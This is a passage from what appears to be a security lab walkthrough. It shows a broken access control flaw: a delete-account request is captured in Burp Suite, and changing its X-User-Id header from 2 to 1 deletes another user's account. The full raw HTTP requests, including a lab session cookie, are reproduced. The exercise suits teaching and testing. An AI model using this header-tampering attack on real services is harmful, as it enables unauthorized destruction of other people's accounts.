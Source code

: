 4. Modify the request to target "User1"'s account

**Step 1:** Click "Delete Account" and capture the request in BurpSuite:
```
POST /delete_account HTTP/2
Host: 678aa840859cc728c0ad9211-lb-732.bm-north.lab.poridhi.io
Cookie: session=eyJ1c2VyX2lkIjoyLCJ1c2VybmFtZSI6IlVzZXIyIn0.Z92faQ.kWL53TI1IuKsU8CaSwZ-CO3Bs4g
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://678aa840859cc728c0ad9211-lb-732.bm-north.lab.poridhi.io/profile
X-User-Id: 2
```

**Step 2:** Modify the X-User-ID header to target "User1":
```
POST /delete_account HTTP/2
Host: 678aa840859cc728c0ad9211-lb-732.bm-north.lab.poridhi.io
Cookie: session=eyJ1c2VyX2lkIjoyLCJ1c2VybmFtZSI6IlVzZXIyIn0.Z92faQ.kWL53TI1IuKsU8CaSwZ-CO3Bs4g
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://678aa840859cc728c0ad9211-lb-732.bm-north.lab.poridhi.io/profile
X-User-Id: 1
```

**Step 3:** Forward the modified request and observe that you can delete another user's account!
